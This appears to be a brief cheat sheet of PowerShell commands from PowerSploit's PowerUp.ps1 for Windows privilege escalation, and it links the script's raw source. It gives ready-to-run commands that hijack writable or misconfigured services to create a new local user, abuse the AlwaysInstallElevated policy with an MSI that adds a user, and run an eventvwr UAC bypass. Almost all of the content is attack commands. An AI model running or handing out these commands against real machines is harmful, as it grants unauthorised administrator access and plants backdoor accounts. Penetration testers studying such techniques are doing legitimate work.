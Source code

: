 ### source
https://raw.githubusercontent.com/AdrianVollmer/PowerSploit/master/Privesc/PowerUp.ps1  

### run all checks and prevent script from terminating if one test fail
```
Invoke-PrivescAudit -ErrorAction SilentlyContinue -Format html
```

### replace vulnerable service exe and add new user (improper write permissions on file)
```
Write-ServiceEXE -ServiceName <name> -UserName <newUser> -Password <newPassword> -Verbose
```

### replace vulnerable service path and add new user (stop service, rewrite path, start service)
```
Invoke-ServiceUserAdd -ServiceName <name> -UserName <newUser> -Password <newPassword> -Verbose
```

### use AlwaysInstallElevated key and add new user (need a GUI)
```
Write-UserAddMSI -Verbose
```

### test for UAC bypass
```
Invoke-EventVwrBypass -Command "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe mkdir C:\testUAC"
```

